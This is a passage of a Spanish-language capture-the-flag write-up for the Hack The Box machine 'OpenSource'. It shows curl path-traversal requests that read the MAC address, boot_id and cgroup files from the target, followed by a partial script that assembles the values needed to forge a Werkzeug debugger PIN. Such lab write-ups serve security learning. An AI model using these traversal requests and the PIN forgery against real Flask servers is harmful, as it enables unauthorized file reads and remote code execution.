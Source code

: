 Descargo de [Hactricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) un script que se encarga de generar el pin. Para ello necesito obtener varios valores, aprovechándome del LFI y las rutas que se leakeaban en los errores

<img src="/writeups/assets/img/OpenSource-htb/7.png" alt="">

Obtengo la MAC

```null
curl -s -X GET 'http://10.10.11.164/uploads/..//sys/class/net/eth0/address' --path-as-is
02:42:ac:11:00:03
```

La convierto a decimal

```null
python3
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x0242ac110003
2485377892355
```

Y obtengo el otro valor

```null
curl 'http://10.10.11.164/uploads/..//proc/sys/kernel/random/boot_id' --path-as-is --ignore-content-length
2702ea2c-f783-4553-8988-17df49318302
```

```null
curl 'http://10.10.11.164/uploads/..//proc/self/cgroup' --path-as-is --ignore-content-length
12:hugetlb:/docker/b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345
11:freezer:/docker/b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345
10:rdma:/
9:devices:/docker/b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345
8:pids:/docker/b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345
7:net_cls,net_prio:/docker/b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345
6:blkio:/docker/b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345
5:cpuset:/docker/b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345
4:cpu,cpuacct:/docker/b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345
3:memory:/docker/b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345
2:perf_event:/docker/b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345
1:name=systemd:/docker/b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345
0::/system.slice/snap.docker.dockerd.service
```

La idea es compactar este con el anterior. El script quedaría así:

```null
import hashlib
from itertools import chain
probably_public_bits = [
    'root',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892355',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '2702ea2c-f783-4553-8988-17df49318302b708f3d89365eba0b8a5d112625e230edd7df211a4ce0d5f17fab8ab7273d345'# get_machine_id(), /etc/machine-id
]

```